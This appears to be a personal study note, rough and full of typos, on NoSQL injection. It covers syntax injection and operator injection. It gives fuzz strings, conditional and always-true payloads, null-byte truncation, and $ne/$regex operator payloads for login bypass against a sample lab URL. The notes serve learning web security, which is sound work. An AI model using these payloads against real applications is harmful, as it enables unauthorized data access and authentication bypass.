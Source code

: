 # NOSQLi

# TYPES:
### Syntax Injection
### OPerator INjection


## NOSQL SYNTAX NJECTION
'"`{
;$Foo}
$Foo \xYZ  -------> if request is from URL 

for JSON --> '\"`{\r;$Foo}\n$Foo \\xYZ\u0000

the above strings can be used to test fot noslqi if detectable changes or eroor is caused

now that we have found the presence of Nosqli we test 
whci characters are processed we can try to inject all specula charcter like ' " etc to break nosqli syntax
STEp2 -->confirm conditional behavior
' && 0 && 'x and ' && 1 && 'x as    -----> we can use the followinf like methods to detect conditional behaviour
usage --> https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x

step3 try to override the suntac like we do in sqli which alway evaluated to be ture and gives us all the data
we can use 
'||1||'
or 
this.category == 'fizzy'||'1'=='1'


NB--->SUPPOSE SOMETIME WE WANT TO BREAK OUT OF SYNTX OR COMMENT THE REST OF THE PARTS THEM WE MAY USE NULL BYTES AFTER ' THAT WILL INGNORE THE REST OF THE PART
LIKE %00 CAN BE USED ----> https://insecure-website.com/product/lookup?category=fizzy'%00

### NOSQL OPERATOR INJECTION
we can make use of followinf operators:

    $where - Matches documents that satisfy a JavaScript expression.
    $ne - Matches all values that are not equal to a specified value.
    $in - Matches all of the values specified in an array.
    $regex - Selects documents where values match a specified regular expression.
FOR JSON -------> {"username":{"$ne":"invalid"}}
FOR URL ---------> username[$ne]=invalid
if it dont woks change method to POST and content type to json
try not to use $ne injection alway if you know thd username use it or else if you know part of usernmae then used regex


